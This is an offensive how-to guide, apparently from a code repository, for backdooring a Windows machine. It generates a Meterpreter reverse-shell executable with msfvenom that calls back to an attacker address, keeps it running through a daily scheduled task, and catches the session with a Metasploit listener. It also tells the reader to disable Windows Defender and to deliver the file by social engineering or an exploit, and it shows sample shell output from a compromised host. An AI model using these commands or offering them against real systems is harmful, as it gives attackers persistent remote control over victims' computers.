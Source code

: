 # Windows Persistence via Scheduled Task
This guide demonstrates how to create a reverse shell backdoor for Windows using `msfvenom`, and establish persistence by setting up a scheduled task.  
This technique allows for remote access via Metasploit's Meterpreter session.  


**Note:**  To test this on modern Windows systems, you need to disable Windows Defender/runtime protection.  

#### Step-by-Step Instructions 

#### 1. Create the Backdoor EXE with msfvenom 
Use `msfvenom` to generate a Windows executable file (`evil.exe`) that opens a reverse shell back to your Metasploit listener.  

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<YOUR-ATTACKER-ADDRESS> LPORT=4444 -f exe -o evil.exe
```


#### 2. Transfer the Backdoor EXE to the Target Machine 
You'll need to get `evil.exe` onto the target Windows machine.  
This can be done through various methods such as social engineering, exploiting a vulnerability, or using a different form of initial access.  


#### 3. Create a Scheduled Task to Maintain Persistence 
To set up the scheduled task that will run the backdoor executable at regular intervals, use the `schtasks` command.  
This example sets up a task named "EvilTask" that runs every day at 12:00 PM.  
Open a Command Prompt with administrative privileges and run the following command:  


```console
schtasks /create /tn "EvilTask" /tr "C:\path\to\evil.exe" /sc daily /st 12:00
```  

Replace `C:\path\to\evil.exe` with the actual path to `evil.exe` on the target machine.  

#### 5. Set Up a Metasploit Listener 

Start Metasploit and set up a listener to catch the reverse shell connection from the target machine.  


```bash
msfconsole
```  

Inside the Metasploit console, run the following commands to set up the listener:  


```msf
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <YOUR-ATTACKER-ADDRESS>
set LPORT 4444
exploit
```  


#### Sample Output 

After successfully triggering the backdoor and obtaining a Meterpreter session, you should see output similar to the following:  


```yaml
meterpreter > sysinfo
Computer        : WIN11
OS              : Windows 11 (10.0 Build 22631).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > 
meterpreter > shell
Process 5124 created.
Channel 1 created.
Microsoft Windows [Version 10.0.22631.3810]
(c) Microsoft Corporation. All rights reserved.

C:\Users\johnb\Desktop\tests\revshell\photos\photos>whoami
whoami
win11\johnb
```

### Summary 
 
1. **Generate**  the backdoor executable with `msfvenom`.  
2. **Transfer**  the `evil.exe` to the target machine.  
 
3. **Disable**  Windows Defender.  
 
4. **Create**  a scheduled task using `schtasks`.  
 
5. **Set up**  a Metasploit listener to catch the reverse shell connection.  



